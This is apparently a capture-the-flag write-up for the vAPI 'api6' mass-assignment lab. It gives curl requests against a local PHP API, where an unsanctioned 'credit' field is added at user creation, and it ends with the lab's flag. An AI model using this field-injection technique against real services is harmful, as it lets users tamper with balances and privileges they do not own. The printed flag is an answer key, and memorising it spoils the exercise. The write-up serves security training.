 # Mass Assignment
> Welcome to our store , We will give you credits if you behave nicely. Our credit management is super secure

# Tools Used:
```
curl 8.8.0 (x86_64-pc-linux-gnu)
base64 (GNU coreutils) 9.4
echo (GNU coreutils) 9.4
```

# Create User
## POST /vapi/api6/user

Create a user
```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' -H $'Host: localhost' -H $'Content-Length: 68' \
    --data-binary $'{\x0d\x0a    \"name\":\"testname\",\x0d\x0a    \"username\":\"testusername\",\x0d\x0a    \"password\":\"testpassword\"\x0d\x0a}' \
    $'http://localhost/vapi/api6/user'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Sat, 29 Jun 2024 21:24:47 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Sat, 29 Jun 2024 21:24:47 GMT
Content-Type: application/json

{"name":"testname","username":"testusername","id":2}
```

As specified in the Postman Collection, the test script to be executed for the API6 Create User endpoint is used to derive the key (Authorization-Token) by parsing the request JSON data, taking the values of the "username" and "password" key respectively with a colon between the two values, encoding the string in base64 and updates it in the Postman Environment as api6_auth.
```js
var reqData = JSON.parse(request.data);
var api6_username=reqData.username;
var api6_password=reqData.password;
var api6_auth=btoa(api6_username+":"+api6_password);
console.log("API 6 Auth : "+api6_auth);
postman.setEnvironmentVariable("api6_auth",api6_auth);
```

Manually derive the authorization token
```bash
echo -n "testusername:testpassword" | base64
```
```
dGVzdHVzZXJuYW1lOnRlc3RwYXNzd29yZA==
```
- We will need the Authorization Token for the "Get User" endpoint

# Get User
## GET /vapi/api6/user/me

Get data of the user we just created
```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Authorization-Token: dGVzdHVzZXJuYW1lOnRlc3RwYXNzd29yZA==' -H $'Host: localhost' \
    $'http://localhost/vapi/api6/user/me'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Sat, 29 Jun 2024 21:32:00 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Sat, 29 Jun 2024 21:32:00 GMT
Content-Type: application/json

{"id":2,"name":"testname","username":"testusername","credit":"0"}
```
- Observe the value for credit is zero

# Create User
## POST /vapi/api6/user

Lets try to create a user with more credits than zero
```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' -H $'Host: localhost' \
    --data-binary $'{\x0d\x0a    \"name\":\"testname1\",\x0d\x0a    \"username\":\"testusername1\",\x0d\x0a    \"password\":\"testpassword1\",\x0d\x0a\"credit\":\"369\"\x0d\x0a}' \
    $'http://localhost/vapi/api6/user'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Sat, 29 Jun 2024 21:34:55 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Sat, 29 Jun 2024 21:34:55 GMT
Content-Type: application/json

{"name":"testname1","username":"testusername1","id":4}
```

Manually derive the authorization token
```bash
echo -n "testusername1:testpassword1" | base64
```
```
dGVzdHVzZXJuYW1lMTp0ZXN0cGFzc3dvcmQx
```

# Get User
## GET /vapi/api6/user/me

Get data of the new user we just created
```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Authorization-Token: dGVzdHVzZXJuYW1lMTp0ZXN0cGFzc3dvcmQx' -H $'Host: localhost' \
    $'http://localhost/vapi/api6/user/me'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Sat, 29 Jun 2024 21:35:48 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Sat, 29 Jun 2024 21:35:48 GMT
Content-Type: application/json

{"id":4,"name":"testname1","username":"testusername1","credit":"369","flag":"flag{api6_afb969db8b6e272694b4}"}
```
- Observe we are able to create a user with a non zero value for credit

API6 Flag
```
flag{api6_afb969db8b6e272694b4}
```

References:
https://owasp.org/API-Security/editions/2019/en/0xa6-mass-assignment/
